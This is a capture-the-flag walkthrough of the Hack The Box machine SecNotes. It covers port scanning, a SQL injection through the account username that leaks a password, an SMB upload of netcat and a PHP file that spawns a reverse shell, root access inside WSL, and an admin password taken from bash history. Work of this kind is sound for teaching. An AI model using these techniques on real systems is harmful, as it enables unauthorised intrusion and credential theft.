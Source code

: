 ### HTB SecNotes    10.10.10.97  

First things first, check nmap, always and forever.

```
(kali?kali)-$ sudo nmap -T4 -p- -Pn 10.10.10.97                                                     
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 23:32 EDT
Nmap scan report for 10.10.10.97
Host is up (0.044s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast

Nmap done: 1 IP address (1 host up) scanned in 94.61 seconds
```

Looks like we got 80, 445, and 8808.  I know what 80 and 445 are...but what's ssports-bcast on 8808.  Not sure, let's find out a bit more.

```
(kali?kali)-$ sudo nmap -p 8808 -A 10.10.10.97      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 23:44 EDT
Nmap scan report for 10.10.10.97
Host is up (0.046s latency).

PORT     STATE SERVICE VERSION
8808/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 8808/tcp)
HOP RTT      ADDRESS
1   47.55 ms 10.10.14.1
2   47.68 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.06 seconds
```

Ok then.  Looks like another http port.  And we see (if we didn't know already) that this is a Windows machine.  At this point, I'm going to start poking at the webserver to see if I can find anything there.

Fire up the browser, go check it out and upon initial visit I get a login page.  Inputs, wonder if these are vulnerable to injection of any sort.

![No Account](/HTB3SecNotes/Images/pic1.png)

Doesn't look like it on the login page.  Lets create an account.

Create that with test username and get all logged in and looks like we have a note taking app.

![App View](/HTB3SecNotes/Images/pic2.png)

You can also see that we have a username.  Tyler.  Let's keep that in our backpocket for now.  Let's test the account creation page for any type of injection.

So, create an account named `'OR 1 OR'` and then sign in and now look what I get.

![Logged in](/HTB3SecNotes/Images/pic3.png)

And if I open these notes out, looks like I get a list of years, a recipie....and, what's this....a password?

![Tyler's password](/HTB3SecNotes/Images/pic4.png)

So far, interesting.  I think I've pretty much gotten admin on the webapp, even grabbed a password out along with a directory.

Before we move on, let's check to see what port 8808 was.

![Basic IIS Page](/HTB3SecNotes/Images/pic5.png)

Looks like just a basic IIS page.  Nothing too fancy.  So let's take our new found username and password and give that a go on the 445 port (SMB).

```
(kali?kali)-$ smbclient -U 'tyler' \\\\10.10.10.97\\new-site
Password for [WORKGROUP\tyler]:
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.10.97\new-site\
smb: \> ls
  .                                   D        0  Sun Aug 19 14:06:14 2018
  ..                                  D        0  Sun Aug 19 14:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018

                7736063 blocks of size 4096. 3394438 blocks available
smb: \> 

```

Looks like I'm working under the website pointed at by 8808.  And Tyler's password worked to get here.  So far not too bad.  Now to see if I can get myself a shell.  So I think here, since I already know the server handles php, we're gonna make that out.

First, let's get our php written out.  Here we're going to use php system() to call nc.exe (netcat) and execute (`-e`) cmd.exe to my IP over port 4444.

![php file](/HTB3SecNotes/Images/pic6.png)

Going to get my netcat listener started in a new terminal tab.

```
(kali?kali)-$ nc -nvlp 4444   
listening on [any] 4444 ...
```

Then we put our files to the server.

```
smb: \> put nc.exe
putting file nc.exe as \nc.exe (244.7 kb/s) (average 244.7 kb/s)
smb: \> put shell.php 
putting file shell.php as \shell.php (0.4 kb/s) (average 155.6 kb/s)
smb: \> ls
  .                                   D        0  Tue Oct  8 00:28:39 2024
  ..                                  D        0  Tue Oct  8 00:28:39 2024
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  nc.exe                              A    59392  Tue Oct  8 00:28:32 2024
  shell.php                           A       54  Tue Oct  8 00:28:39 2024

                7736063 blocks of size 4096. 3394297 blocks available
```

Go back to the browser and go to 10.10.10.97:8808/shell.php and guess what.

```
(kali?kali)-$ nc -nvlp 4444   
listening on [any] 4444 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.97] 52009
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>
```

Ok, so now we have a shell.  So let's get some things figured out.  Run a quick `whoami` and find out that we are under the user tyler.

Since this is a Windows subsystem for linux, we're looking for wsl.exe.  After some research and checking payloadsallthethings, we do find a small section Windows Subsystem for Linux that talks about wsl.exe and bash.exe.  So we find it by the following

```
C:\inetpub\new-site>where /R c:\windows wsl.exe
where /R c:\windows wsl.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe

C:\inetpub\new-site>where /R c:\windows bash.exe
where /R c:\windows bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

Now that we have that info, we can check who the default user is for wsl.exe

```
C:\inetpub\new-site>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
root
```

Ahh, it's in root.  Very interesting.  So, let's try this.

```
C:\inetpub\new-site>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device
```

Now we can get some more info gathing going on and even use python to get to a shell.

```
whoami
root
hostname
SECNOTES
uname -a
Linux SECNOTES 4.4.0-17134-Microsoft #137-Microsoft Thu Jun 14 18:46:00 PST 2018 x86_64 x86_64 x86_64 GNU/Linux
python3 -c "import pty;pty.spawn('/bin/bash')"
root@SECNOTES:~# whoami
whoami
root
```

And look at that, we're root.  In a linux subsystem.  Quick `ls -a` shows we have a bash history.  Let's give that a check.

![history](/HTB3SecNotes/Images/pic7.png)

And would you look at that, an admin password.  How nice of them to leave this in the history like that.

Well now that we have that, we win.  So open a new tab and give psexec.py a go and what do we get?

![Whoami](/HTB3SecNotes/Images/pic8.png)

And now we get the flag.  And another one taken down!!  That's how we do it.

![Root Flag boiiii](/HTB3SecNotes/Images/pic9.png)

Thanks for coming with me on this little adventure!!  More to come soon! :D
